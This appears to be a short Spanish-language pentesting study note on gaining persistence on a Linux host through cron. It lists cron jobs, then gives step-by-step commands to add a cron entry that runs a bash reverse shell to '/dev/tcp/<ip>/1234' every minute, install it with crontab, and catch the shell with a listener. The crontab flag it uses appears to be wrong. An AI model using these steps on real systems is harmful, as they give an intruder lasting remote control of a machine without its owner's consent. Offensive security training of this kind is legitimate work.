 ![[Pasted image 20250304174644.png]]

Podemos listar las tareas cron activas:
`cat /etc/cron*`

## Crear tarea cron para tener persistencia
1. Creamos una tarea cron con el usuario student para que ejecute una reverse shell cada minuto de cada dia de cada mes de cada hora:
```bash
	echo "* * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/<ip>/1234 0>&1'">cron
```
1. Insertamos esta tarea cron en la crontab : `crontab -i cron`
2. Listamos las tareas cron del usuario `crontab -l` , veremos que aparece la que hemos creado.
3. Listo podemos ponernos en escucha por el puerto recordado y tendremos una tty